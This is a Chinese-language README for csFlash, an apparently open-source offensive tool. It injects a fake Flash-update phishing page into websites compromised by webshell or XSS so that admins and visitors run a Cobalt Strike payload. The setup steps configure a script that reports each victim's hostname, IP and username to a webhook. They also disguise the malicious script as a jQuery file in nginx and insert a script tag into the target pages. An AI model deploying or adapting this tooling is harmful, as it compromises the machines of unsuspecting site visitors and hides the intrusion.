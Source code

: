 # csFlash
适用于拿到webshell后进行cs钓鱼

## 效果
当获取到webshell或站点存在xss漏洞时，想获得站点运维人员/网站访问人员主机权限，可在web中插入js钓鱼页面

参考 https://github.com/r00tSe7en/Flash-Pop
![image](https://user-images.githubusercontent.com/38282439/197719314-d685b6ec-b007-4097-a0a0-2f7e6463de53.png)

此项目实现cs上线后自动隐藏功能


## 使用方法

1.在*CS-PushPlus/PushPlus.py*配置好webhook的token，默认使用推送加，可自定义修改为钉钉、企业微信
<img width="714" alt="image" src="https://user-images.githubusercontent.com/38282439/197714243-1df4c320-b337-41c9-ba59-b455a459847f.png">

并配置好数据库文件路径

<img width="608" alt="image" src="https://user-images.githubusercontent.com/38282439/197714659-e8ce0270-b61d-4f27-b985-e894cc50b76c.png">

2.配置好*CS-PushPlus/PushPlus.cna*文件中绝对路径

```
$cmd = 'python3 /CS-PushPlus/PushPlus.py' . " --computernam " . $computerName . " --externalip " . $externalIP . " --username " . $userName;
```

3.启动cs teamserver 、连接cna脚本置于后台
```
./agscript.sh 127.0.0.1 50050 User Pass ./CS-PushPlus/PushPlus.cna
```

4.启动js服务并置于后台，需要修改ssl证书信息
（也可使用http服务，但不建议，否则可能在https站点无法加载此js文件）
```
python3 flaskHttpd.py 
```
5.于nginx等web服务器配置，或开启防火墙使得能够通过路径访问到此flask服务
```
        location /public/common/libs/jquery/jquery-1.9.1.min.js {
                proxy_pass $flaskHttpd;
                }
```
6.替换项目中flash.exe文件，将flask的url插入到web页面中
```
<script src=https://xxxxxx> </script>
```

